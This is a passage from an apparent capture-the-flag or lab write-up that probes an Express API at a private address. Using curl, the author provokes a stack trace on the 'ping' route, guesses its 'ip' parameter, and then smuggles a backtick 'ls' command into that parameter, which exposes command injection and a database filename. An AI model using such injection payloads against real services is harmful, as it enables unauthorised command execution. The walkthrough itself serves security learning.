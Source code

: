 As we don't have any valid credentials, we can't authenticate now, so let's check the other route.

**ping**

Now, let's have a look at the second route (`ping`):

~~~
$ curl -s "http://10.10.100.5:8081/ping" | html2text 

    TypeError: Cannot read property 'replace' of undefined  
        at app.get (/home/www/api/index.js:45:29)  
        at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)  
        at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)  
        at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)  
        at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)  
        at /home/www/api/node_modules/express/lib/router/index.js:281:22  
        at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)  
        at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)  
        at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)  
        at /home/www/api/node_modules/cors/lib/index.js:224:17
~~~

This is interesting, because the API is likely expecting a parameter to be provided, and will call `replace` to kind of sanitize it. However, as this parameter is missing, it failed and we had this error.

Let's try to guess the missing parameter. As `auth` was expecting a `login` and `password`, we could assume that `ping` is expecting an `ip`, right? Let's check:

~~~
$ curl -i "http://10.10.100.5:8081/ping?ip=127.0.0.1"
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 251
ETag: W/"fb-cFu2RWHosOjadv694se9YWL5QfE"
Date: Sat, 20 Jun 2020 05:39:04 GMT
Connection: keep-alive

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.014/0.014/0.014/0.000 ms
~~~

It seems that our assumption was correct. Now, let's see if we can inject some code.

~~~
$ curl -i 'http://10.10.100.5:8081/ping?ip=`ls`'
HTTP/1.1 200 OK
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: text/html; charset=utf-8
Content-Length: 49
ETag: W/"31-HlSQypQjJ8bvYzsasjt4yTZkt90"
Date: Sat, 20 Jun 2020 05:56:01 GMT
Connection: keep-alive

ping: utech.db.sqlite: Name or service not known
~~~
